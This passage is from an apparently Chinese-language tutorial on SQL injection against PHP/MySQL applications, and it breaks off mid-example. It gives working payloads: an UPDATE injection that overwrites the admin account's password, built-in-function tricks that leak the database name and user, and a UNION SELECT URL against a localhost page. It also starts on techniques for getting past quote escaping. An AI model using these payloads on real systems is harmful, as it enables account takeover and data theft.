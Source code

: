 UPDATE user SET password='MD5($password)',homepage='$homepage' WHERE username='' or username='admin';
```

同样也可以达到修改的目的。如果有些变量是从数据库读取的固定值，甚至用$_SESSION['username']来读取服务器上的SESSION信息时，就可以在原来的WHERE之前构造WHERE并注释掉后面的代码，灵活注释也是注入的技巧之一。

变量的提交方式可以是GET或POST，提交的位置可以使地址栏，表单，隐藏表单或修改本地COOKIE信息等,提交的方式可以是本地提交，服务器上提交或者工具提交。


**高级应用**

1.使用MySQL内置函数
在ACCESS，MSSQL中的注入，有很多比较高级的注入方法，比如深入到系统，猜中文等，这些东西在MySQL中也能很好的得到发挥，其实在MySQL有很多内置函数都可以用在SQL语句里，这样就使得注入时更加灵活。

比较常用的
```
DATABASE()
USER()
SYSTEM_USER()
SESSION_USER()
CURRENT_USER()
...
```


```
UPDATE article SET title=$title WHERE articleid=1
```
$title可以为以上的各个函数，因为没有被引号包含，所以函数能正常执行

```
UPDATE article SET title=DATABASE() WHERE id=1 
#把当前数据库名更新到title字段
UPDATE article SET title=USER() WHERE id=1 
#把当前 MySQL 用户名更新到title字段
UPDATE article SET title=SYSTEM_USER() WHERE id=1 
#把当前 MySQL 用户名更新到title字段
UPDATE article SET title=SESSION_USER() WHERE id=1 
#把当前 MySQL 用户名更新到title字段
UPDATE article SET title=CURRENT_USER() WHERE id=1 
#把当前会话被验证匹配的用户名更新到title字段
```

获取MySQL数据库相关信息
```
http://localhost/inject/show.php?id=-1 union select 1,database(),version()
```


2.不加单引号注入
假设magic_quotes_gpc为on。
整型数据是不需要用引号引起来的，而字符串要用引号，这样就可以避免很多问题，但如果仅仅用整型数据，是没法进行注入的，所以要把构造的语句转换成整型类型，就需要用到char(),ascii(),ord(),conv()函数。

```
select * from user where username='angel'
